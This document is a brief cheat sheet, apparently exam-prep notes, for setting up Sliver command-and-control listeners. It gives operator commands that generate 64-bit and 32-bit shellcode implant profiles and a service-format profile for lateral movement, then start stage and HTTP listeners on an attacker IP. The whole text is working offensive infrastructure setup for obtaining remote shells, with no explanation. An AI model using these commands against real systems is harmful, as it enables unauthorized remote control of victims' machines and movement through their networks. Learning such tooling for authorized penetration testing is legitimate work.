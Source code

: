 # Sliver Listeners

### 1) 64 bit shell

    profiles new --http 10.10.10.11:8088 --format shellcode osep
    stage-listener --url tcp://10.10.10.11:4443 --profile osep
    http -L 10.10.10.11 --lport 8088

### 2) 32 bit shell

    profiles new --http 10.10.10.11:9090 --format shellcode -a x86 osepx86
    stage-listener --url tcp://10.10.10.11:5553 --profile osepx86
    http -L 10.10.10.11 --lport 9090

### 3) Lateral Movement

    profiles new --http 10.10.10.11:8099 --format service osep-lateral
    http -L 10.10.10.11 --lport 8099
